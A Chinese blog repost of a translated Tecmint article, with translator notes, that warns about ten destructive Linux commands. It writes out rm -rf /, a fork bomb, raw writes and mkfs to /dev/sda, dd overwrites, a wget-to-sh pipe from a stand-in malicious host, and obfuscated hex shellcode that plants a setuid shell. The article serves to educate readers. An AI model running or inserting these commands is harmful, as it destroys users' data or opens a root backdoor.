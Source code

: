 --- layout: post title: "永远不要在 Linux 执行的 10 个最危险的命令"
date: '2013-12-09T12:06:00.000+08:00' author: Wenh Q tags: - tech
modified\_time: '2013-12-09T12:06:38.271+08:00' blogger\_id:
tag:blogger.com,1999:blog-4961947611491238191.post-5272589394057621915
blogger\_orig\_url: http://binaryware.blogspot.com/2013/12/linux-10.html
---

[永远不要在 Linux 执行的 10
个最危险的命令](http://www.oschina.net/news/46657/10-most-dangerous-commands-you-should-never-execute-on-linux)

Via [开源中国社区最新新闻](http://www.oschina.net/?from=rss)

Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正
在做什么时候。这篇文章并不打算引来你对Linux或linux
命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普
通用户身份下，破坏的只是自己的一亩三分地。）\
![100744lmgomq4g44wwv7mm.jpg](http://static.oschina.net/uploads/img/201312/08063106_Sreu.jpg)\
1. rm -rf 命令\
rm
-rf命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些rm
命令的选项。\

-   rm　命令在Linux下通常用来删除文件。\
-   rm -r
    命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是"甚至是非空的文件夹"）\
-   rm -f
    命令能不经过询问直接删除'只读文件'。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数
    只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来
    要求删除确认，而-f则抑制了这个提示。）\
-   rm -rf / :
    强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）\
-   rm -rf \*:　强制删除当前目录的所有文件。\
-   rm -rf . : 强制删除当前文件夹及其子文件夹。\

从 现在起，当你要执行rm
-rf命令时请留心一点。我们可以在".bashrc"文件对'rm'命令创建rm
-i的别名，来预防用
'rm'命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好
你在做什么！译者本人有着血泪的教训啊。）\
2. :(){:|:&};: 命令\
这就是个fork 炸弹的实例。具体操作是通过定义一个名为
':'的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。\
:(){:|:&};:\
哦？你确认你要试试么？千万别在公司正式的[服务器]()上实验啊\~\~\
3. 命令　\> /dev/sda\
上列命令会将某个'命令'的输出写到块设备/dev/sda中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。\
4. mv 文件夹 /dev/null\
这 个命令会移动某个'文件夹'到/dev/null。在Linux中 /dev/null 或 null
设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止
数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）\
\# mv /home/user/\* /dev/null\
上列命令会将User目录所有内容移动到/dev/null，这意味着所有东西都被'卷入'黑洞　(null)之中。\
5. wget http://malicious\_source -O- | sh\
上列命令会从一个（也许是）恶意源下载一个脚本并执行。Wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。\
注意:
你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）\
6. mkfs.ext3 /dev/sda\
上列命令会格式化块设备'sda'，你无疑知道在执行上列命令后你的块设备([硬盘]()驱
动器)会被格式化，崭新的!没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设
备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁
灭性的，上面的数据都会被蒸发了。）\
7. \> file\
上列命令常用来清空文件内容（译注：通常也用于记录命令输出。
不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是
"\>\>"，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似
"\>xt.conf"　的命令会覆盖配置文件或其他任何的系统配置文件。\
8. \^foo\^bar\
这个命令在我们[十个鲜为人知的 Linux 命令 - Part
3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的"黑客"技巧。）\
9. dd if=/dev/random of=/dev/sda\
上列命令会向块设备sda写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）\
10. 隐藏命令\
下面的命令其实就是上面第一个命令 (rm
-rf)。这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的根分区。\
这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。\
char esp[] \_\_attribute\_\_ ((section(".text"))) /\* e.s.prelease \*/=
"\\xeb\\x3e\\x5b\\x31\\xc0\\x50\\x54\\x5a\\x83\\xec\\x64\\x68″"\\xff\\xff\\xff\\xff\\x68\\xdf\\xd0\\xdf\\xd9\\x68\\x8d\\x99″"\\xdf\\x81\\x68\\x8d\\x92\\xdf\\xd2\\x54\\x5e\\xf7\\x16\\xf7″"\\x56\\x04\\xf7\\x56\\x08\\xf7\\x56\\x0c\\x83\\xc4\\x74\\x56″"\\x8d\\x73\\x08\\x56\\x53\\x54\\x59\\xb0\\x0b\\xcd\\x80\\x31″"\\xc0\\x40\\xeb\\xf9\\xe8\\xbd\\xff\\xff\\xff\\x2f\\x62\\x69″"\\x6e\\x2f\\x73\\x68\\x00\\x2d\\x63\\x00″"cp
-p /bin/sh /tmp/.beyond; chmod 4755/tmp/.beyond;";\
注意:
不要在你的或你的同学或学校的[电脑]()里的Linux终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章作者和Tecmint概不负责。（译注：译者和转载网站也不负责\~！）\
今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问Tecmint。如果你知道任何其他危险的Linux命令，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。\
via:
[http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/](http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/)\
译者：[Luoxcat](https://github.com/Luoxcat)
校对：[wxy](https://github.com/wxy)\
本文由 [LCTT](https://github.com/LCTT/TranslateProject)
原创翻译，[Linux中国](http://linux.cn/)
